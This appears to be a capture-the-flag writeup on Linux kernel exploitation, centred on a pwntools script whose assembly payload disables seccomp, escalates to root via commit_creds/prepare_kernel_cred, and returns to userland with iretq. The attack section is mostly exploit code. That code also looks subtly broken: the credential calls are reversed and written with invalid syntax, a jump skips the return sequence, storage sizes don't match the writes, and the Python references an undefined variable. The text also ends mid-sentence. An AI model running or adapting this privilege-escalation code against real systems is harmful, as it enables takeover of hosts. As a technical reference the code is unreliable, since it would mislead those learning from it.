 # 🐚 Kernel Pwn: Jumping from Userland to Kernel and Back

In kernel exploitation challenges, you often need to **jump from userland to kernel space**, perform privileged actions, and then **safely return** to userland. This writeup provides a working example and some hard-earned lessons.

---

## 🧠 The Idea

You must **save userland state** (registers like `cs`, `ss`, `rsp`, `rflags`, and `rip`) before transitioning into kernel space. Then, in kernel space, elevate privileges, and finally **restore the saved context** to safely return via `iretq`.

If you skip this — like I initially did — you'll get a lovely `SIGSEGV` from `iretq`.

---

## 🔧 Code Snippet

### Python Exploit (Pwntools)

```python
from pwn import *
import os

context.arch = 'amd64'

# Target binary
path = 'some_binary'
p = process(path)

payload = asm(f"""
    ; Save userland segment and context values
    lea r15 , [rip+user_ss]
    mov rax, ss
    mov [r15], rax

    lea r15, [rip+user_sp]
    mov rax, rsp
    mov [r15], rax

    lea r15, [rip+user_rflags]
    pushfq
    pop rax
    mov [r15], rax

    lea r15, [rip+user_cs]
    mov rax, cs
    mov [r15], rax

    ; Write shellcode into opened FD (3)
    mov rdi, 3
    lea rsi, [rip + shellcode]
    mov rdx, 150
    mov rax, 1
    syscall

    ; Trigger syscall to run shellcode in kernel
    push 0x66
    mov rdi, rsp
    push 4
    pop rsi
    push 90
    pop rax
    syscall

    ret

shellcode:
    ; Disable seccomp by flipping bit at current_task->seccomp
    mov rax, qword ptr gs:0x15d00
    and qword ptr [rax], 0xfffffffffffffeff

    ; Typical get-root pattern
    mov rax, commit_cred()
    xor rdi, rdi
    call rax
    mov rdi, rax
    mov rax, prepare_kernel_cred()
    jmp rax

    ; Return to userland
    swapgs
    xor r15, r15
    mov r15, [rip + user_ss]
    push r15
    xor r15, r15
    mov r15, [rip + user_sp]
    push r15
    xor r15, r15
    mov r15, [rip + user_rflags]
    push r15
    xor r15, r15
    mov r15, [rip + user_cs]
    push r15
    mov r15, [rip + user_rip]
    push r15
    iretq

user_cs:
    .byte  0x00
user_ss:
    .byte  0x00
user_sp:
    .quad  0x00
user_rflags:
    .word  0x0000
user_rip:
    .qword return_address

binsh:
    .string "/flag"
""")

# Write shellcode to file (unrelated to main exploit flow)
with open('file2', 'wb') as f:
    f.write(shellcode)

# Send the payload
p.sendline(payload)
os.system('cat /flag')
```

---

## 🧪 Debugging

When debugging with GDB, check `gs`-based offsets:

```gdb
(gdb) p/x &current_task
$21 = 0x0 gs:offset
```

This confirms where `gs:0x15d00` points (it should point to `current_task->seccomp`, which you clear with `and [rax], ~0x100`).

---

## ⚠️ Watch Out: `iretq` and KPTI

I lost hours figuring out why I kept segfaulting on `iretq`...

Turns out: **`iretq` needs 5 things on the stack** (in this order):

1. `ss`  
2. `rsp`  
3. `rflags`  
4. `cs`  
5. `rip`

If you miss one, or the values are garbage — say hello to `SIGSEGV`.

Also:  
If you're running on a Linux kernel ≥ 4.15, KPTI (Kernel Page Table Isolation) a.k.a. **KAISER**, will cause `iretq` to fail unless you're handling the page table switch correctly.

---

## 🩹 Workaround: Use a Signal Handler

Thanks to [@ntrung03](https://github.com/TrungNguyen1909) for this trick:  
Use a **signal handler** to handle return to userland cleanly.

Writeup:  
🔗 https://github.com/TrungNguyen1909/writeups/blob/master/matesctf/KSMASH/exploit.c  
Blog:  
📝 https://trungnguyen1909.github.io/blog/post/matesctf/KSMASH/

> Highly recommend reading his KSMASH writeup — very insightful.

---

## ✅ TL;DR

- Save userland state (`cs`, `ss`, `rsp`, `rflags`, `rip`)
- Use `iretq` properly with
